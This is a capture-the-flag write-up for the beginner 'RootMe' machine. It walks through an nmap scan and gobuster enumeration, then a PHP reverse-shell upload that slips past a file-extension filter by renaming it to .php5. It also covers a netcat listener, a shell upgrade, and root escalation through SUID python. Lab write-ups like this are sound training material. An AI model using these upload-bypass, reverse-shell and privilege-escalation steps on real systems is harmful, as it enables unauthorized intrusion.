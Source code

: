 # RootMe

## A ctf for beginners, can you root me?

### Questions

* Scan the machine, how many ports are open?
* What version of Apache are running?
* What is the hidden directory?
* user.txt?
* Search for files with SUID permission, which file is weird?
* root.txt?

## Enumeration

### Nmap

> nmap -sSVC -A -O -vv

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 22:13 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating Ping Scan at 22:13
Scanning 10.10.119.253 [4 ports]
Completed Ping Scan at 22:13, 0.77s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:13
Completed Parallel DNS resolution of 1 host. at 22:13, 0.01s elapsed
Initiating SYN Stealth Scan at 22:13
Scanning 10.10.119.253 [1000 ports]
Discovered open port 22/tcp on 10.10.119.253
Discovered open port 80/tcp on 10.10.119.253
Completed SYN Stealth Scan at 22:13, 5.50s elapsed (1000 total ports)
Initiating Service scan at 22:13
Scanning 2 services on 10.10.119.253
Completed Service scan at 22:13, 7.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.119.253
Retrying OS detection (try #2) against 10.10.119.253
Retrying OS detection (try #3) against 10.10.119.253
Retrying OS detection (try #4) against 10.10.119.253
Retrying OS detection (try #5) against 10.10.119.253
Initiating Traceroute at 22:14
Completed Traceroute at 22:14, 3.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:14
Completed Parallel DNS resolution of 2 hosts. at 22:14, 0.01s elapsed
NSE: Script scanning 10.10.119.253.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
NSE Timing: About 99.63% done; ETC: 22:14 (0:00:00 remaining)
Completed NSE at 22:15, 48.03s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 2.96s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Nmap scan report for 10.10.119.253
Host is up, received reset ttl 61 (0.74s latency).
Scanned at 2020-10-12 22:13:40 BST for 97s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/12%OT=22%CT=1%CU=43844%PV=Y%DS=4%DC=T%G=Y%TM=5F84C7
OS:65%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 31.728 days (since Fri Sep 11 04:46:46 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   470.81 ms 10.4.0.1
2   ... 3
4   736.20 ms 10.10.119.253

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.29 seconds
           Raw packets sent: 1130 (53.746KB) | Rcvd: 1082 (46.782KB)
```

#### Q: Scan the machine, how many ports are open?
> A: 2

#### Q: What version of Apache are running?
> A: 2.4.29

#### Q: What service is running on port 22?
> A: ssh

### finding Directories/files 

(i use gobuster (dirbuster was not working))

>gobuster dir -u http://10.10.63.255:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 33 -x html,php,txt

(the ip is different because I continued that writeup the other day)

![image](https://user-images.githubusercontent.com/53917092/95799616-9c977c80-0ccb-11eb-8c12-1261b632a434.png)

#### Q: What is the hidden directory?
> A: /panel/

checking the directory /panel/, we have

![image](https://user-images.githubusercontent.com/53917092/95799962-ad94bd80-0ccc-11eb-82b6-bebb559e010c.png)

let's try upload a shell

shell: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

>curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -o revs.php

remember to set a port to listening

>nc -lvp PORT

![image](https://user-images.githubusercontent.com/53917092/95800457-c487df80-0ccd-11eb-951b-1fa61fd38181.png)

"PHP isn't permitted"

let's try bypassing this using the ".php5" extension

> mv revs.php revs.php5

![image](https://user-images.githubusercontent.com/53917092/95800910-fcdbed80-0cce-11eb-9775-7ede504b29aa.png)

it worked

to run click on "veja" ("see")

![image](https://user-images.githubusercontent.com/53917092/95801051-81c70700-0ccf-11eb-9179-d92c4d421c56.png)

it worked, we have shell

to get a tty

> python -c 'import pty;pty.spawn("/bin/bash")'

> Ctrl+Z 

> stty raw -echo

> fg

> export TERM=xterm

![image](https://user-images.githubusercontent.com/53917092/95801836-087ce380-0cd2-11eb-9d6a-dfcb6863ae6c.png)

### user.txt

#### finding

> find / -type f -name user.txt 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803052-770f7080-0cd5-11eb-8a1d-a00ca7024fa4.png)

#### getting

> cat /var/www/user.txt

![image](https://user-images.githubusercontent.com/53917092/95803222-f2712200-0cd5-11eb-9ae6-a8a542164dec.png)

### root.txt / Privilege Escalation

To look for the files with SUID permission we can use the command:

> find / -type f -user root -perm -4000 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803488-9ce94500-0cd6-11eb-9d5c-e8822a26ddb7.png)

#### Exploring python set uid capabilities

> python -c "import os;os.setuid(0);os.system('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95803893-a7f0a500-0cd7-11eb-9a16-463b7cbc950a.png)

#### getting

![image](https://user-images.githubusercontent.com/53917092/97299626-fbb0d180-1833-11eb-8160-946f299c1725.png)

that's it, thanks for reading